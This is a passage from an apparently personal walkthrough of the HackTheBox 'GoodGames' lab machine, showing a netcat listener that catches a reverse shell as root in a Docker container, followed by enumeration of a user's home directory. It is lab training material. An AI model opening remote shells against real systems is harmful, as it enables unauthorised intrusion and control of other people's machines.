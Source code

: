 Before we execute the code, we should open a netcat listener.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# nc -nlvp 1234                   
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.130] 48710
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# whoami
whoami
root
root@3a453ab39d3d:/backend# ls -la
ls -la
total 28
drwxr-xr-x 1 root root 4096 Nov  5  2021 .
drwxr-xr-x 1 root root 4096 Nov  5  2021 ..
-rw-r--r-- 1 root root  122 Nov  3  2021 Dockerfile
drwxr-xr-x 1 root root 4096 Nov  3  2021 project
-rw-r--r-- 1 root root  208 Nov  3  2021 requirements.txt
```

>   This was a Docker container OwO

# Privilege Escalation

Lets look around the container to check if we can find anything interesting.

```bash
root@3a453ab39d3d:/backend# cd /home
cd /home
root@3a453ab39d3d:/home# ls -la
ls -la
total 12
drwxr-xr-x 1 root root 4096 Nov  5  2021 .
drwxr-xr-x 1 root root 4096 Nov  5  2021 ..
drwxr-xr-x 2 1000 1000 4096 Dec  2  2021 augustus
root@3a453ab39d3d:/home# cd augustus
cd augustus
root@3a453ab39d3d:/home/augustus# ls -la
ls -la
total 24
drwxr-xr-x 2 1000 1000 4096 Dec  2  2021 .
drwxr-xr-x 1 root root 4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root    9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000 3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000  807 Oct 19  2021 .profile
-rw-r----- 1 root 1000   33 Aug 15 04:33 user.txt
```

At this point, I was going round in circles. A writeup from [0xdf](https://0xdf.gitlab.io/2022/02/23/htb-goodgames.html) showed that we needed to check if the user `augustus` was in the `/etc/passwd` file.
